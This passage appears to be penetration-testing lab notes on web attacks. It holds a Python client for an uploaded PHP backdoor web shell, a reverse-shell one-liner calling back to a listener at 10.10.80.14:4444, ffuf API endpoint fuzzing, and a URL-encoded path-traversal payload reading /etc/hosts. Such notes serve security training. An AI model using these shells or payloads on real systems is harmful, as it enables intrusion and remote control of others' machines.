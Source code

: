                 # defines a cmd variable for an input() function which our user will enter
                print(requests.get(args.target+"/?cmd="+cmd).text)
                # same as above except with our input() function value
                time.sleep(0.3)
                # waits 0.3 seconds during each request
            except requests.exceptions.InvalidSchema: # error handling
                print("Invalid URL Schema: http:// or https://")
            except requests.exceptions.ConnectionError: # error handling
                print("URL is invalid")
    ```
  
    ```sh
    python3 web_shell.py -t http://10.129.50.65:3001/uploads/backdoor.php -o yes

    # we get command execution

    # to get reverse shell, setup listener and run the below command in RCE
    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.80.14",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
    ```

* Local file inclusion:

  * For given API, we can start by endpoint fuzzing to identify any valid endpoints:

    ```sh
    ffuf -w "/usr/share/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://10.129.16.41:3000/api/FUZZ'
    ```
  
  * We get a valid API endpoint '/api/download':

    ```sh
    curl http://10.129.16.41:3000/api/download
    # we get JSON response
    # says to input filename via /download/<filename>

    # instead of specifying filename, we can use LFI payloads
    curl "http://10.129.16.41:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
    # this works
    # we can fuzz using LFI payloads to check further
    ```
